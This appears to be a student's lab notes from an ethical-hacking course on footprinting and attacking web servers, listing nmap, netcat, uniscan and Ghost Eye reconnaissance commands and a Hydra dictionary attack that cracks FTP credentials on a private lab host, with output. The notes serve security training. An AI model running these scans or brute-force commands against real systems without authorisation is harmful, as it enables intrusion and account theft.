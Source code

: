 # LAB 1: Footprint the Web Server
---   
### Task 1: Information Gathering using Ghost Eye
---
```
┌──(toolsvenv)─(voldemort@ideapad)-[~/tools/ghost_eye]
└─$ python3 ./ghost_eye.py

        Ghost Eye - Information Gathering Tool 
        Author: Jolanda de Koff aka Bulls Eye 
        Github:  https://github.com/BullsEye0 
        Website: https://hackingpassion.com 
        Patreon: https://www.patreon.com/jolandadekoff 

              Hi there, Shall we play a game..? 😃 

[+] 1.   EtherApe – Graphical Network Monitor (root)
[+] 2.   DNS Lookup
[+] 3.   Whois Lookup 
[+] 4.   Nmap Port Scan
[+] 5.   HTTP Header Grabber
[+] 6.   Clickjacking Test - X-Frame-Options Header
[+] 7.   Robots.txt Scanner
[+] 8.   Cloudflare Cookie scraper
[+] 9.   Link Grabber
[+] 10.  IP Location Finder
[+] 11.  Detecting CMS with Identified Technologies
[+] 12.  Traceroute
[+] 13.  Crawler target url + Robots.txt
[+] 14.  Certificate Transparency log monitor
[x] 15.  Exit

[+] Enter your choice: 

```

### Task 2: Perform Web Server Reconnaissance using Skipfish
---
**LAB Manual 3** - Page 1493

### Task 3: Footprinting a web server using the httprecon Tool
---
LAB Manual 3 - Page 1500

### Task 4: Footprint a Web Server using ID Serve
---
LAB Manual 4 - Page 1503

### Task 5: Footprint a Web Server using Netcat and Telnet
---
**Parrot**
1. nc -vv www.example.com 80
2. telnet www.example.com 80

### Task 6: Enumerate web Server Information using Nmap Scripting Engine (NSE)
---
> Enumerate the directories used by web servers.
1. nmap -sV --script=http-enum {ip}

> Discover the hostnames that resolve the targeted domain.
2. nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- {ip}

> Perform an HTTP trace on the targeted domain.
3. nmap --script http-trace -d {ip}

>Check Firewall is configured or not.
4. nmap -p80 --script http-waf-detect {ip}

> Host Discovery using ARP
5. nmap -PR -sn 192.168.0.0/24

 > Host Discovery using ICMP
6. nmap -PE -sn 192.168.0.0/24
7. nmap -PP -sn 192.168.0.0/24
8. nmap -PM -sn 192.168.0.0/24

 > Host Discovery using TCP and UDP
9. nmap -PS -sn 192.168.0.0/24       | TCP
10. nmap -PA -sn 192.168.0.0/24     | TCP ACK
11. nmap -PU -sn 192.168.0.0/24     | UDP
### Task 7: Uniscan Web Server Fingerprinting in Parrot Security
---
**Parrot**
> Scan for Directories.
1. uniscan -u http://example.com
> Scan for roboots.txt and sitemap.xml
2. uniscan -u http://example.com -we
> Scan for dynamic Testing
3. uniscan -u http://example.com -d

# Lab 2: Perform a Web Server Attack
---
### Task 1: Crack FTP Credentials using Dictionary Attack
---
┌──(voldemort@ideapad)-[~]
└─$ hydra -L /usr/share/wordlist/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlist/SecLists/Passwords/Common-Credentials/top-passwords-shortlist.txt ftp://192.168.0.106
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 14:34:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 425 login tries (l:17/p:25), ~27 tries per task
[DATA] attacking ftp://192.168.0.106:21/
[21][ftp] host: 192.168.0.106   login: ftp   password: password
[21][ftp] host: 192.168.0.106   login: ftp   password: abc123
[21][ftp] host: 192.168.0.106   login: ftp   password: querty
[21][ftp] host: 192.168.0.106   login: ftp   password: 123456
[21][ftp] host: 192.168.0.106   login: ftp   password: 12345678
[21][ftp] host: 192.168.0.106   login: ftp   password: monkey
[STATUS] 329.00 tries/min, 329 tries in 00:01h, 96 to do in 00:01h, 16 active
1 of 1 target successfully completed, 6 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-15 14:36:29

```